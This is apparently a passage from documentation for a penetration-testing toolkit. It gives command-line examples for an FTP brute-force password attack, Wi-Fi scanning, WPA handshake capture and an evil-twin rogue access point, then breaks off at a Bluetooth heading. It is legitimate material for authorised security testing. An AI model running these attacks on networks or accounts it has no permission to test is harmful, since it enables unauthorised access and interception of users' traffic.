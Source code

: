#### Brute Force Attack Simulation
```bash
# Simulate brute force attack on FTP
python3 -m mcp_god_mode.tools.security.password_cracker \
  --target "192.168.1.101:21" \
  --service "ftp" \
  --username "user" \
  --attack_type "brute_force" \
  --max_attempts 10000 \
  --output_file "./ftp_brute_force.json"
```

## 📡 Wireless Security Testing

### Wi-Fi Network Assessment

#### Network Discovery and Analysis
```bash
# Scan for Wi-Fi networks
python3 -m mcp_god_mode.tools.wireless.wifi_security_toolkit \
  --action scan_networks \
  --interface "wlan0" \
  --duration 60 \
  --output_file "./wifi_networks.json"
```

#### WPA Handshake Capture
```bash
# Capture WPA handshake for testing
python3 -m mcp_god_mode.tools.wireless.wifi_security_toolkit \
  --action capture_handshake \
  --target_ssid "OfficeWiFi" \
  --target_bssid "00:11:22:33:44:55" \
  --interface "wlan0" \
  --duration 300 \
  --output_file "./captured_handshake.pcap"
```

#### Evil Twin Attack Setup
```bash
# Create rogue access point
python3 -m mcp_god_mode.tools.wireless.wifi_security_toolkit \
  --action create_rogue_ap \
  --target_ssid "OfficeWiFi" \
  --interface "wlan1" \
  --channel 6 \
  --power_level 80 \
  --output_file "./rogue_ap_log.json"
```

### Bluetooth Security Assessment
